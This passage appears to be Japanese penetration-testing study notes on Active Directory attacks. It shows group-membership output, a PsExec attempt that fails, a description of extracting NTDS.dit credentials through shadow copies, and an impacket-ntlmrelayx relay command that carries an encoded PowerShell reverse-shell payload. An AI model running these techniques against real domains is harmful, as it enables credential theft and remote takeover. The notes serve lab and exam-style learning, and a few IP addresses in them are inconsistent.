 ```
BUILTIN\Administrators                      Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
CORP\Domain Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-512 Mandatory group, Enabled by default, Enabled group
CORP\Group Policy Creator Owners            Group            S-1-5-21-1987370270-658905905-1781884369-520 Mandatory group, Enabled by default, Enabled group
CORP\Schema Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-518 Mandatory group, Enabled by default, Enabled group
CORP\Enterprise Admins                      Group            S-1-5-21-1987370270-658905905-1781884369-519 Mandatory group, Enabled by default, Enabled group
CORP\Denied RODC Password Replication Group Alias            S-1-5-21-1987370270-658905905-1781884369-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level        Label            S-1-16-12288
```

**※以下の認証のやり方だとNTLM認証を強制されてしまうためブロックされる**

```
C:\Tools\SysinternalsSuite> psexec.exe \\192.168.50.70 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.50.70:
Access is denied.
```

### シャドウコピー

ボリューム シャドウ サービス(VSS)とも呼ばれるシャドウコピー1は、ファイルまたはボリューム全体のスナップショットを作成できる Microsoft バックアップ テクノロジ  
ドメイン管理者は、vshadow ユーティリティを悪用して、Active Directory データベースNTDS.ditデータベース ファイルを抽出できるシャドウ コピーを作成することができます。  
**上記データベースのコピーを取得したら、ローカルの Kali マシン上ですべてのユーザー資格情報をオフラインで抽出できます。**  




### Net-NTLMv2の中継

192.168.111.211には接続できるが、12.168.111.212はアクセスできない場合  
攻撃側でResponderを使用してSMB接続を待ち受けてやられ側1(192.168.111.211)で攻撃端末に接続、ResponderがキャッチしてResponderであらかじめ設定しておいたリバースシェルで212に接続完了できる  

```
Responderで待ち受ける
kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..." 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
```